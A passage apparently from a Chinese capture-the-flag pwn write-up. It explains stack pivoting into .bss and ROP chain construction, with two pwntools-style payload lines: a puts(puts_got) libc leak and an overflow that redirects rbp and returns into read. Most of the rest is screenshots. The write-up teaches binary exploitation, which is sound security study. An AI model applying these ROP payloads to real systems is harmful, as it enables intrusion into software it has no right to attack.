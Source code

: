 [![](assets/1701606597-d8042a88f280a703f9dcfb4f47d562df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170301-f1968a92-845e-1.png)

rsp 调试正常后，那么我们下一次则可以进行 rop 链构造

```plain
#puts(puts_got)
pl = p64(bss6+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
```

​`bss6+0x20`​基础上再加 0x10（固定模板）

[![](assets/1701606597-e9a85b45c1025b963df6fcc54ca4f7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170308-f5ee2db6-845e-1.png)

‍

[![](assets/1701606597-11e0ee2cc2e074b08bb78e7bfcf73258.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170312-f84f2790-845e-1.png)

```plain
pl = b'a'*0x20+p64(bss6+0x40)+p64(read) #4
```

[![](assets/1701606597-b46786b4d9f94d1e8a9ad19d7a3f0904.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170320-fd66d714-845e-1.png)
